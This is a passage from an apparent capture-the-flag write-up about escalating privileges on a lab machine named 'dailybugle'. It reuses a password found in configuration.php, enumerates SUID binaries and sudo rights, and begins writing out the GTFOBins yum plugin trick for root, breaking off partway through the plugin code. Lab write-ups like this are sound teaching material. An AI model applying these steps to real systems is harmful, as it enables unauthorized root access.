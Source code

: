 The configuration.php file contains a password. I tried this for the 'jjameson' user and succeeded. Where else is this password used? I have no idea. It must also be for 
logging into the MySQL server.

```
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
whoami
jjameson
```

```
find / -perm -u=s 2>/dev/null    
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

These two commands are a must, I feel, for privilege escalation: finding binaries with SUID bit, and if the password is known for a user, then checking the allowed commands with SUDO permissions.

GTFOBins is the first site to check after getting a binary which can be run with privilege.

```
[jjameson@dailybugle /]$ TF=$(mktemp -d)               
[jjameson@dailybugle /]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle /]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle /]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
```
